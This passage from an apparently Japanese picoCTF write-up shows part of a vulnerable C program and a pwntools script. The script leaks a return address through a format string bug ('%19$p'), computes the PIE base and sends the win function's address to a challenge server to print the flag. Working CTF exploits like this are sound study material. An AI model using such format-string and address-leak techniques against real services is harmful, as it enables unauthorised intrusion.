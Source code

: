 ```c

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```

前回と同じでwinが存在しており、入力でwinの関数アドレスを渡すことは変わらないようですが、今度はFSBが存在しています。解法としてはFSBでスタック上のリターンアドレスをリークし、前回と同じ方法でベースアドレスを算出します。そうすればwin関数のアドレスをpwntoolsが計算してくれるので、それを文字列として送信するだけです。ごちゃごちゃしていると、リターンアドレスは19番目に位置していると分かるので、`%19$p`を送信してリターンアドレスを得ています。

```python
from pwn import *

file = './vuln'
elf = context.binary = ELF(file)
p = remote("rescued-float.picoctf.net", 61604)

p.recvuntil('name:')
p.sendline('%19$p')

main_leak = int(p.recvuntil('\n'), 16)

# リークしたアドレス - 実行前の相対アドレス = ベースアドレス
elf.address = main_leak - 0x1441 

p.recvuntil('0x12345: ')
p.sendline(hex(elf.sym['win']))
print(p.recvall().decode())
```
